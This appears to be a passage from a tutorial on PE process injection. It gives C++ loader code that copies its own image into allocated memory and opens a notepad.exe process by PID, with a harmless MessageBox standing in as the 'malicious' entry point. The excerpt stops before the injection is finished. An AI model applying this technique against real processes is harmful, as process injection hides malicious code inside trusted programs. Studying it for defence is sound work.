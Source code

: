 
## Obtaining malicious code
For this proof of concept, we will be creating a loader program that will inject itself into the target process. The loader will contain a function acting as our malicious code; where the function will also be the entry point of the remote thread.

Let's examine the loader code below, which contains the first step of our process injection. First, the loader program allocates memory for itself. Then, it copies itself into the allocated memory. This is done so that we have access to a copy of the code that we can modify in memory to make it compatible with the target process.
```cpp
#include <stdio.h>
#include <iostream>
#include <Windows.h>
#include <string>  
#include <typeinfo>

//Function which will be the entry point to the remote thread
int InjectionEntryPoint() {
	MessageBoxA(NULL, NULL, NULL, NULL);
	return 0;
}

int main() {
  //Obtain the handle of the current process. GetModuleHandle returns a handle containing a pointer to the specified process. In this case, we have passed the NULL parameter. Therefor, it returns the pointer pointing to the image base of the current process.
	HMODULE imageBase = GetModuleHandle(NULL);
  
  //Reading headers to obtain sizeOfImage
	PIMAGE_DOS_HEADER dosHeader = (PIMAGE_DOS_HEADER)imageBase;
	PIMAGE_NT_HEADERS ntHeader = (PIMAGE_NT_HEADERS)((DWORD_PTR)imageBase + dosHeader->e_lfanew);
	DWORD sizeOfImage = ntHeader->OptionalHeader.SizeOfImage;
  
	//Allocating memory locally
	LPVOID localImage = VirtualAlloc(NULL, sizeOfImage, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

	//Copying the current process into the allocated memory
	memcpy(localImage, imageBase, sizeOfImage);
	return 0;
}
```

## Locating the target process
For the next step, we need to locate the target process. This can be easily done by using the OpenProcess Win32 API to obtain a handle for the target process. However, it is important to note that the target process ID (PID) needs to be specified explicitly when using the API. Currently, the PID 16248 corresponds to a notepad.exe process running on my system.

```cpp
HANDLE targetProcess = OpenProcess(MAXIMUM_ALLOWED, FALSE, 16248);
```
